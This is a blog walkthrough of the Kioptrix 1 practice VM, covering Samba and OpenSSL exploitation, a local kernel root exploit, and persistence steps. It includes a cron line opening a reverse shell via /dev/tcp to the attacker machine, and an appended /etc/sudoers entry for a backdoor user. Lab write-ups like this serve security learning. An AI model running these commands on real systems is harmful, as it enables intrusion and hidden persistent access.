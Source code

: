 ```yaml
---
layout: post
title: Kioptrix 1 - Walkthrough
---
```


I have been slow on updating the blog. Not because I haven't been hacking VMs and doing other stuff. I just got lost in other stuff.


## Scanning

So as usual I started out scanning the machine. I have been learning more about metasploit and metasploit database so I tried to use that a bit more. So I scanned with db_nmap


```
Services
========

host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
192.168.1.103  22    tcp    ssh          open   OpenSSH 2.9p2 protocol 1.99
192.168.1.103  80    tcp    http         open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.1.103  111   tcp    rpcbind      open   2 RPC #100000
192.168.1.103  139   tcp    netbios-ssn  open   Samba smbd workgroup: PMYGROUP
192.168.1.103  443   tcp    ssl/http     open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.1.103  1024  tcp    status       open   1 RPC #100024
```

## Focus on smb
After checking out the website on 80 and 443, it just had default apache pages, I decided to focus on smb. I have never worked with smb, so I had to read up on what it is, what it does, and what it is for.

So samba, or smb, is a service that provides file-sharing between unix and windows. So you can have a linux-server in the office and have people backup and save all their data on the server, even though they use windows-machines. From a user-perspective you just see a folder that you can enter and add and remove whatever files you want.

So it is not that different from a NFS or FTP-server. And after you have connected to it you can mount the share to you local filesystem. Just like NFS.

So if we search for smb or samba in metasploit we get ton's of good stuff. Some auxiliary modules and a lot of windows exploits. And even some for linux.

```
search smb
```

I tried out a few of the auxiliary modules, but they were not that great. I also tried out a few nmap-scripts, like: enum-shares, and enum-users. But neither returned any new info. So instead I opted to just connect to the server the normal way. On kali you get smbclient included, so after reading the man/help-page I connected like this:

```
smbclient -L 192.168.1.103


Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            IPC       IPC Service (Samba Server)
	ADMIN$          IPC       IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Server               Comment
	---------            -------
	KIOPTRIX             Samba Server

	Workgroup            Master
	---------            -------
	MYGROUP              KIOPTRIX

```

If you don't type any password you can make an anonymous login. Here we can see that the version is `Samba 2.2.1a`.

So I did a search with searchsploit, which I have come to really love because you can search with multiple search-terms, unlike `search` which is very buggy. And found some interesting stuff.

```
searchsploit samba linux
Samba <= 2.2.8 - Remote Root Exploit             | ./linux/remote/10.c
```

So I copied and compiled this exploit.
```
./samba -b 0 192.168.1.103
```

And it returned a root-shell. So yeah, not that difficult.

I also tried a few exploits against the apache server, as it was very old an vulnerable. There were several local exploits. But one I really liked was:

```
Apache 1.3.x - 2.0.48 - mod_userdir Remote Users Disclosure Exploit           | ./linux/remote/132.c
```

This was a really nice exploit. You can brutforce usernames really fast with it.


After I had entered I explored the system a bit. Found that root keeps a log in its mail for ssh-login attemps.
The configuration for the samba-server is found in /etc/samba

First I wanted to find out what distro it was, but it didn't show me the usual way:

```
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
```

Put in /etc I found

```
sh-2.05# cat redhat-release
cat redhat-release
Red Hat Linux release 7.2 (Enigma)
```

Then I tried to set up a new user for persistence in case someone would patch this 100 years old vulnerability. The `useradd` command was not found, so I had to add them to the path First

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Then I ran
```
useradd pelle
passwd pelle
```

Then I added the user to the sudo goup by doing
```
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

Once I had a new user with sudo-rights, I also added a cronjob to connect to the attcking machine every minute.

```
crontab -e
*/1 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

## Using openssl

So I read in the description of the VM that there are multiple ways to pwn this machine. So I set out to do it again.

This time I started focusing on Apache and OpenSSL.

So by visiting the webpage we understand that it is a RedHat-distro.
So after search with searchsploit I found this exploit

```
Apache OpenSSL - Remote Exploit (Multiple Targets) (OpenFuckV2.c)           | ./linux/remote/764.c
```

So I opened it and tried to compile it. And it failed. But in the exploit code I found
```
* http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/
```

So I followed the instructions and updated the script. And ran it. But the script kept dying. It said it managed to spawn a shell, but I was unable to interact. It turns out the second exploit it was downloading failed, even though I had updated the address. Anyways, I just removed the wget command, and got a shell as a apache user.

Then I started the hunt for local exploits. Which I figured would be easy since the kernel is so old.
First I tried 33824.c. But I didn't compile.

Then I tried 3.c. And it compiled and gave me root.

```
bash-2.05$ gcc 3.c -o exp
gcc 3.c -o exp
bash-2.05$ ./exp
./exp
[+] Attached to 29558
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```

## Tools used
- Nmap
- enum4linux
- Metasploit (to search for exploits)

## Conclusion

Although very old it was still useful and fun. Great with VMs that focus on exploits and not only on riddles.
